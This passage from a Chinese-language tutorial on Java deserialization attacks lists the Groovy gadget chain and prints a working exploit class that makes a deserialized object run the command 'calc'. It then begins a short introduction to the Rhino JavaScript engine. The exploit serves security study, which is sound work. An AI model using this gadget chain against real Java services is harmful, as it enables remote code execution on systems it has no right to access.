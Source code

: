 Gadgets 如下：

```bash
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
                MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

exp 如下：

```bash
package com.example.groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

public class Groovy1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {

        MethodClosure methodClosure=new MethodClosure("calc","execute");
        ConvertedClosure closure=new ConvertedClosure(methodClosure,"entrySet");
        Class<?>  AnnotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = AnnotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Map handler= (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},closure);
        Object object=constructor.newInstance(Target.class,handler);
        unserialize(serialize(object));

    }

}
```

# Rhino 反序列化

Mozilla Rhino 是一种基于 Java 的可扩展、轻量级的 JavaScript 引擎。它可以在 Java 虚拟机（JVM）上运行 JavaScript 代码，并且可以作为独立的命令行工具和嵌入式组件来使用。Rhino 可以通过 Java API 来访问和操作 Java 对象，也可以通过 JavaScript 对象访问和操作 Java 对象。Rhino 还支持 ECMAScript 6 标准和部分 ECMAScript 7 标准的功能。因此，它可以用于许多领域，如 Web 开发、桌面应用程序、服务器端脚本等。
